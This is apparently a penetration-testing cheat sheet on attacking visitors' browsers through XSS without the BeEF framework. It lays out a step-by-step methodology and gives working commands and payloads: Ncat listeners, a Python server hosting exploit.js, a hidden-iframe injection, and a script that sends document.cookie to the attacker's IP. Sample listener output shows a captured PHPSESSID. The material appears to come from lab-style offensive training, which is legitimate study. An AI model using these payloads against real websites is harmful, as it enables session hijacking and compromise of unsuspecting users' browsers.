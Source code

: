 Targeting Web Browsers without BeEF
================================================================================

<br>

### Methodology

* Select your ‘hunting grounds’—a website vulnerable to XSS, CSRF, file inclusion, or some other method of presenting unsanitized code to visiting browsers.

* Exploit the vulnerability via request manipulation, comment post, etc. so that visiting browsers load your code and attempt to retrieve a resource from your IP address (browser redirection).

* Conduct victim browser recon with an Ncat listener to enumerate victim browsers.

* Prepare for your attack by setting up listener(s) to catch incoming reverse shells from exploited victims.

* Execute your attack by hosting the exploit as the resource that victim browsers retrieve from your IP address.

<br>

### Enumeration

<u>Victim Browser Recon</u>

[1] Set listener

```
root@kali:~# ncat –nvlp 80
```

[2] Get your XSS onto exploitable webpage.

[3] Victim browser sends you a request.

[4] Ncat receives request and its details:

```
connect to [10.11.0.5] from (UNKNOWN) [10.11.1.35] 49275
GET /report HTTP/1.1
Accept: image/jpeg, application/x-ms-application, image/gif, application/xaml+xml, image/pjpeg, application/x-ms-xbap, */*
Referer: http://127.0.0.1/index.php
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
Accept-Encoding: gzip, deflate
Host: 10.11.0.5
Connection: Keep-Alive
```

<br>

### Exploit: XSS Enabling Manual Exploit Delivery

[1] Create and serve exploit code.

```
root@kali:~# cp /path/browser-exploit.js ./exploit.js
root@kali:~# python –m SimpleHTTPServer 80
```

[2] Get this code onto XSS-vuln webpage:

```
<iframe SRC="http://<kali_ipaddr>/exploit.js" height = "0" width = "0"></iframe>
```

[3] Victim browser sends HTTP GET request to Kali IP address for the resource “exploit.js”.

[4] SimpleHTTPServer sends exploit.js to victim browser, which loads it.

<br>

### Exploit Snippets

[1] Deliver exploit.js

```
<script>new Image().src="http://<kali_ipaddr>/exploit.js";</script>

-OR-

<iframe SRC="http://<kali_ipaddr>/exploit.js" height = "0" width = "0"></iframe>
```

[2] Receive authenticated session ID in HTTP GET request

```
<script> new Image().src="http://<kali_ipaddr>/bogus.php?output="+document.cookie; </script>
```

*Session ID cookie is appended to the resource in the GET request you receive:*

```
# nc -nlvp 80
  listening on [any] 80 ...
  connect to [10.11.0.5] from (UNKNOWN) [10.11.1.35] 49455
  GET /bogus.php?output=PHPSESSID=308f56771e83388c1c9069116054e80e HTTP/1.1
```

*Where `PHPSESSID=308f56771e83388c1c9069116054e80e` is the cookie.*

<br>


